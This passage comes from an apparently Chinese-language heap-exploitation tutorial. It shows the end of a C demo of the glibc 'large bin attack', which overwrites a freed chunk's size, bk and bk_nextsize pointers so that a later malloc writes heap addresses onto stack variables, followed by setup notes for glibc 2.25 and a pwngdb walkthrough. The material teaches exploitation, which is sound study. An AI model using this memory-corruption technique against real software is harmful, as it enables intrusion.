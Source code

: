 ```c
                    " [ %p <--> %p ]\n\n",
            (void *)(p3 - 2), (void *)(p3[0]));

    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
                    " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
                    " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
                    " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
                    " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}

```



編譯完以後，注意！一定要用 glibc2.25 的 loader，改變 loader 的方法可以看這裏：https://www.jianshu.com/p/1a966b62b3d4





pwngdb 走起，開始我們的分析之旅：



![](./figure/large_bin_attack/large_bin_attack1.png)
